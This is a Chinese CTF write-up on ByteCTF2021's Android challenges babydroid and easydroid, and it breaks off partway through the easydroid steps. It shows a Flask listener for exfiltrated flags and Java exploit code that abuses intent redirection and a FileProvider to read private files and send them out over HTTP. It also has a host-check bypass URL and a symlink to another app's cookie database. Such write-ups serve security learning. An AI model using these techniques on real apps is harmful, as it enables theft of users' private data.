# Android Security学习之ByteCTF2021_mobile 环境搭建+前两道题Writeup-先知社区

> **来源**: https://xz.aliyun.com/news/16393  
> **文章ID**: 16393

---

## Android Security学习之ByteCTF2021\_mobile 环境搭建+前两道题Writeup

---

### 1. 环境搭建

#### 系统：

Ubuntu 18.04

#### 步骤：

1. 安装dokcer。
2. 在虚拟机上，运行`flask`服务器。将打包好的pwn.apk放在服务器上。一是，在之后运行的脚本中可以在服务器上下载这个apk。二是，做URL参数解析，用来接收传出的flag。

```
from flask import Flask, request, send_from_directory
    import os
    app = Flask(__name__, static_folder='dist')

    @app.route("/")
    def hello():
        return "hello world" 
    # URL参数解析
    @app.route('/getUrlParam')
    def getUrlParam():
        # name=request.args["name"]
        # password=request.args["password"]
        flag = request.args["msg"]
        with open("./flag.sql",'w') as f:
            f.write(flag)
        # print("name:"+name)
        # print("password:"+password)
        s = "flag: %s"%flag
        print(s)
        return s
    @app.route('/test')
    def test():
        print("test")
        return app.send_static_file('test.html')
    # easydroid XSS
    @app.route('/exp.html')
    def ret_exp():
        print('exp.html')
        return app.send_static_file('exp.html')
    @app.route('/easydroid.html')
    def ret_easydroid():
        print('easydroid.html')
        return app.send_static_file('easydroid.html')


    # pwn.apk下载
    @app.route('/download/<filename>', methods=['GET'])
    def download(filename):
        if request.method == "GET":
            path = os.path.isfile(os.path.join(app.config['DOWNLOAD_FOLDER'], filename));
            if path:
                return send_from_directory(app.config['DOWNLOAD_FOLDER'], filename, as_attachment=True)

    if __name__ == "__main__":
        app.config['DOWNLOAD_FOLDER'] = 'dist/download/'
        app.run(host='0.0.0.0',port =5000)

```

1. 在`~/ByteCTF2021_Android/babydroid/src_babydroid`目录下执行`run.sh`脚本，生成babydroid容器。docker镜像中有Android虚拟环境。下载镜像需要十到十五分钟。

   ```
   sudo bash run.sh

   ```

   
2. 进入babydroid容器，在`/challeng`目录下，执行`server.py`文件。容器中会自动在`emulator`中执行`pwn.apk`，发动攻击，传出flag。

   ```
   python3 server.py

   ```
3. 在`flask`服务器上接收传出的flag。  
   

#### 遇到的一些小问题

##### 1.

需要打开虚拟机CPU虚拟化，在后来docker中虚拟kvm环境时需要。  
  
在运行虚拟机是可能会提示无法虚拟化CPU，这种情况一般有以下三种原因：

1. CPU确实无法虚拟化（无法解决）
2. BIOS设置中未开启CPU
3. 开启了Hyper-V导致VMware无法直接接触物理层(我就是这个原因，之前使用了WSL，开启了Hyper-V，导致在VMware中无法CPU虚拟化)  
   

##### 2.

在`emulator`启动时会有如下报错，如果不在启动脚本中修改`ADB_PORT`会导致之后获得flag后，无法建立HTTP连接。  
  
  
在脚本中修改如下：



##### 3.

在获得flag后，因为安卓不方便控制台输出。所以exp选择用http把flag传出来。  


在虚拟机上部署一个简单的flask，用来做url参数解析，即可获得传出的flag。  
  


### 2. babydroid

#### 1. 原理

##### 题目漏洞点

###### babydroid的文件目录



###### FlagReceiver.java

```
public void onReceive(Context context, Intent intent) {
    String flag = intent.getStringExtra("flag");
    if(flag!=null){
        File file = new File(context.getFilesDir(), "flag");
        writeFile(file, flag);
        Log.e("FlagReceiver", "received flag.");
    }
}

```

  
系统广播`flag`后，广播接收器接收到`flag`，将它写入`file`的位置。**我们就知道要想拿到`flag`，即是要读取`/data/user/0/com.bytectf.babydroid/files/flag`。**

###### Vulnerable.java中的Intent重定向漏洞

```
package com.bytectf.babydroid;

import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;
import android.os.Parcelable;

import androidx.annotation.Nullable;

public class Vulnerable extends Activity {
    @Override
    protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent intent = getIntent().getParcelableExtra("intent");
        startActivity(intent);
    }
}

```

在第14行中，将`Intent`中的`Extra`属性中的值反序列化生成一个新的`Intent`。  
在第15行中，把新生成的不可信的`Intent`传给`startActivity()`，再以`Vulnerable.java`的身份执行`startActivity(intent)`。  
我们可以自己构造一个`显式Intent`，运行`Vulnerable.java`，并在Extra中放入一个序列化的危险`Intent`。Intent的重定向问题即发生在此。

###### AndroidManifest.xml中的文件临时授权问题

AndroidManifest.xml

```
...
        <provider
            android:name="androidx.core.content.FileProvider"
            android:authorities="androidx.core.content.FileProvider"
            android:grantUriPermissions="true"
            android:exported="false">
            <meta-data
                android:name="android.support.FILE_PROVIDER_PATHS"
                android:resource="@xml/file_paths"/>
        </provider>
...

```

file\_paths.xml

```
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path name="root" path="" />
</paths>

```

在`AndroidManifest.xml`中，`android:name`的值是实现 `Content Provider` 的类的名称，应该是一个完全限定的类名。`android:authorities`的值是一个或多个 `URI` 授权方的列表，这些 `URI` 授权方用于标识 `Content Provider` 提供的数据。`android:exported="false"`虽然不允许外部组件访问数据，但是`android:grantUriPermissions="true"`，可以通过授予权限，让应用组件对受权限保护的数据进行一次性访问。

在`file_paths.xml`中，通过为每个目录添加一个`XML`元素来指定目录。在`AndroidManifest.xml`中，<meta-data>子元素 <provider>指向一个 XML 文件，已经指定了共享文件`xml`文件的目录。</provider></meta-data>

###### 如何授予文件临时读写权限

在构造`Intent`组件时，`data`设置为`content://androidx.core.content.FileProvider/root/data/data/com.bytectf.babydroid/files/flag`，`flag`设置为`Intent.FLAG_GRANT_READ_URI_PERMISSION|Intent.FLAG_GRANT_WRITE_URI_PERMISSION`，赋予临时数据读写权限。

```
public static final int FLAG_GRANT_PERSISTABLE_URI_PERMISSION = 64;
public static final int FLAG_GRANT_PREFIX_URI_PERMISSION = 128;
public static final int FLAG_GRANT_READ_URI_PERMISSION = 1;
public static final int FLAG_GRANT_WRITE_URI_PERMISSION = 2;

```

把想赋予的不同临时权限求亦或和，赋给`flag`，通过`Intent`打开的组件就可以获得对应的临时权限。

##### pwn思路

构造一个嵌套的`Intent`，并借助`Vulnerable.java`转发。因为`fileProvider`存在文件临时读写问题，故可在转发的过程中，赋予`pwn`临时读写`flag`文件的权限。最后用http传出。



#### 2. 步骤

##### 1

构造一个嵌套的`Intent`。

```
Intent evil = new Intent("evil");
    evil.setClass(this,MainActivity.class);
    evil.setData(Uri.parse("content://androidx.core.content.FileProvider/root/data/data/com.bytectf.babydroid/files/flag"));
    evil.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION|Intent.FLAG_GRANT_WRITE_URI_PERMISSION);

    Intent intent = new Intent();
    intent.setClassName("com.bytectf.babydroid", "com.bytectf.babydroid.Vulnerable");
    intent.putExtra("intent",evil);

```

先构造需要`Vulnerable.java`转发的`Intent`类`evil`，然后将`evil`序列化后放入跳转到`Vulnerable`的`intent`的`Extra`属性中。注意，`evil`的`Flags`要设置为3，这样被跳转的`pwn`就获得了文件临时读写权限。  
如此便构造了一个嵌套的`Intent`。  
  


##### 2

通过嵌套的`Intent`以及`Vulnerable`中的重定向漏洞，从`pwn`跳转到`Vulnerable`，再从`Vulnerable`把`intent`的`Extra`反序列化为`Intent`类跳转到`pwn`。使`pwn`获得临时读写`com.bytectf.babydroid`的权限。  


##### 3

`pwn`读取`flag`，通过`http`传出来。

```
InputStream inputStream = getContentResolver().openInputStream(getIntent().getData());
    String s = Base64.encodeToString(IOUtils.toString(inputStream).getBytes("UTF-8"), Base64.DEFAULT).replaceAll("\n", "");
    httpGet(s);

```

  
在服务器上获得`flag`。

#### 3. 考查知识点

1. Intent组件的跳转  
   <https://developer.android.google.cn/reference/android/content/Intent>  
   <https://www.notion.so/Intent-0ce819a19ce04ade8b6b910c4d7153c0>  
   <https://www.jianshu.com/p/add5d8ec8ffb>
2. FileProvider对共享文件夹的权限控制  
   <https://developer.android.google.cn/reference/androidx/core/content/FileProvider>  
   <https://developer.android.google.cn/guide/topics/manifest/provider-element#auth>  
   <https://developer.android.google.cn/training/secure-file-sharing/setup-sharing>

### 3. easydroid

#### 1. 原理

##### 题目漏洞点

###### easydroid的文件目录



###### FlagReciever.java

```
public void onReceive(Context context, Intent intent) {
        String flag = intent.getStringExtra("flag");
        if(flag!=null){
            try {
                flag = Base64.encodeToString(flag.getBytes("UTF-8"), Base64.DEFAULT);
                CookieManager cookieManager = CookieManager.getInstance();
                cookieManager.setCookie("https://tiktok.com/", "flag="+flag);
                Log.e("FlagReceiver", "received flag.");
            } catch (UnsupportedEncodingException e) {
                e.printStackTrace();
            }
        }
    }

```

把接收到的`flag`存入到持久化`Cookies`中。在本类中，`Cookies`是以.db的形式存储在`/data/data/com.bytectf.easydroid/app_webview/Cookies`中。**所以，我们希望拿到`flag`就是希望能把`Cookies`传出来。**

###### Mainactivity.java

```
if(data.getAuthority().contains("toutiao.com") && data.getScheme().equals("http")){
        WebView webView = new WebView(getApplicationContext());
        webView.setWebViewClient(new WebViewClient(){
            @SuppressLint("WrongConstant")
            @Override
            public boolean shouldOverrideUrlLoading(WebView view, String url) {
                Uri uri = Uri.parse(url);
                if(uri.getScheme().equals("intent")){
                    try {
                        startActivity(Intent.parseUri(url,1));
                    } catch (URISyntaxException e) {
                        e.printStackTrace();
                    }
                    return true;
                }
                return super.shouldOverrideUrlLoading(view, url);
            }
        });
        setContentView(webView);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.loadUrl(data.toString());
    }

```

第1行的URL验证，使用了`contains()`，不太严格，很容易被绕过。  
第6到17行，重载了[shouldOverrideUrlLoading](https://developer.android.com/reference/android/webkit/WebViewClient#shouldOverrideUrlLoading(android.webkit.WebView,%20java.lang.String))函数，存在Intent重定向漏洞。在`Webview`加载URL前，可能会先执行`Intent`的跳转。注意，这里的`URL`不一定是`Intent`传来的，也可能是脚本中需要打开的网页。

###### TestActivity.java

```
protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        String url = getIntent().getStringExtra("url");
        WebView webView = new WebView(getApplicationContext());
        setContentView(webView);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.loadUrl(url);
    }

```

`TestActivity`中的`Webview`因为不导出，所以只能借助`MainActivity`中的`Intent`重定向来间接访问。`setAllowFileAccess`在api 29及以下默认打开（常被开发者忽略），又因为`Webview`一般都会用到`js`，所以基本都会用`setJavaScriptEnable`。当这二者同时打开时，风险就出现了，而且这是一个很常见的风险。 *(在谷歌的修复建议 <https://support.google.com/faqs/answer/9084685> 中，其实已经将该漏洞的利用思路指出来了)*  


##### pwn思路

**使用XSS攻击，通过在Cookies中插入js脚本，当Webview把Cookies当作.html渲染时，将Cookies文件传出来就可以拿到flag。**  
在`pwn`中构造一个`Intent`，通过`Intent`重定向运行`MainActivity`，因为`Activity`中有不严格的`URL`校验，可以绕过执行脚本`easydroid.html`。在`easydroid.html`脚本中，先通过`TestActivity`渲染`exp.html`文件，将恶意的`<script>`保存到`Cookies`中。再通过`TestActivity`渲染`symlink.html(Cookies)`，将恶意代码执行。  


#### 2. 步骤

##### 1

在`pwn`中建立`/data/user/0/com.bytectf.pwneasydroid/symlink.html`指向`/data/user/0/com.bytectf.easydroid/app_webview/Cookies`的软连接。因为后面渲染`symlink.html`时会有URL检查。  
Pwn Easydroid/MainActivity.java

```
private String symlink() {
        try {
            String root = getApplicationInfo().dataDir;
            String symlink = root + "/symlink.html";
            String cookies = getPackageManager().getApplicationInfo("com.bytectf.easydroid", 0).dataDir + "/app_webview/Cookies";

            Runtime.getRuntime().exec("rm " + symlink).waitFor();
            Runtime.getRuntime().exec("ln -s " + cookies + " " + symlink).waitFor();
            Runtime.getRuntime().exec("chmod -R 777 " + root).waitFor();

            return symlink;
        } catch (Throwable th) {
            throw new RuntimeException(th);
        }
    }

```



##### 2

在`pwn`中，构造一个`Intent`，跳转启动`MainActivity`。`Intent`的`Data`可设置为`http://toutiao.com@10.24.32.128:5000/easydroid.html`用以绕过检验，访问恶意脚本。

Pwn Easydroid/MainActivity.java

```
Intent intent = new Intent();
intent.setClassName("com.bytectf.easydroid","com.bytectf.easydroid.MainActivity");
intent.setData(Uri.parse("http://toutiao.com@10.24.32.128:5000/easydroid.html"));
startActivity(intent);

```

Easydroid/MainActivity.java

```
if(data.getAuthority().contains("toutiao.com") && data.getScheme().equals("http")){
    WebView webView = new WebView(getApplicationContext());
    webView.setWebViewClient(new WebViewClient(){
        @SuppressLint("WrongConstant")
        @Override
        public boolean shouldOverrideUrlLoading(WebView view, String url) {
            Uri uri = Uri.parse(url);
            if(uri.getScheme().equals("intent")){
                try {
                    startActivity(Intent.parseUri(url,1));
                } catch (URISyntaxException e) {
                    e.printStackTrace();
                }
                return true;
            }
            return super.shouldOverrideUrlLoading(view, url);
        }
    });
    setContentView(webView);
    webView.getSettings().setJavaScriptEnabled(true);
    webView.loadUrl(data.toString());
}

```

##### 3

